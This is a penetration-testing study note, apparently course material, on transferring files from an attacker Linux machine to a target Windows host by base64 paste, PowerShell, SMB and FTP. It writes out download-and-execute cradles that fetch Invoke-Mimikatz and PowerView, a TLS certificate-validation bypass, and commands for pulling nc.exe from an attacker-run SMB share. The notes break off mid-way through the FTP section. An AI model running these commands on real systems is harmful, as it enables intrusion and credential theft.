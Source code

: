 # Windows file transfer

## Downloads (from our linux machine to target windows machine)
- Powershell Base64 Encode and decode
	- Don't need network communication. Encode file to base64 string, manually copy contents from terminal and perform reverse operation, decoding file in original content.
	- eg. want to transfer an ssh key to Windows machine
	- 1. Check the MD5 hash, for use later
		- md5sum id_rsa
	- 2. Encode the file to base 64
		- cat id_rsa | base64 -w 0; echo
	- 3. Copy and paste the output to a Windows Powershell terminal
	- 4. `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("the_string"))
	- 5. Confirming the hashes match
		- Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
- Powershell web downloads
	- Powershell WebClient provides methods for downloading data from resource.
	- DownloadFile method
		- `(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
			- ``(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
	- DownloadString - Fileless method
		- Uses some OS functions to download payload and **execute it directly**
		- `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
		- `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
	- Invoke-WebRequest
		- Powershell 3.0 onwards
		- `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
	- https://gist.github.com/HarmJ0y/bb48307ffa663256e239
		- List of Powershell download cradles
		- Be aware of nuances, eg. lack of proxy awareness or touching disk (downloading file onto target)
- Common errors with Powershell
	- Internet Explorer first-launch config not completed
		- Bypassed with the -UseBasicParsing flag
		- ` Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
	- SSL/TLS secure channel, cert not trusted
		- Bypass with
		- `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
- SMB Downloads
	- Create SMB server in our machine with smbserver.impacket from Impacket
		- `sudo impacket-smbserver share -smb2support /tmp/smbshare`
	- Then on target
		- `copy \\192.168.220.133\share\nc.exe`
	- Note: new versions of windows block unauthenticated guest access
		- `You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
		- To solve this, we set username and password using our Impacket SMB server, then mount the SMB server on windows machine
			- `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
			- on target: `net use n: \\192.168.220.133\share /user:test test
- FTP downloads
	- Configure FTP server in our machine
		- `sudo pip3 install pyftpdlib`
		- `sudo python3 -m pyftpdlib --port 21
		- 


`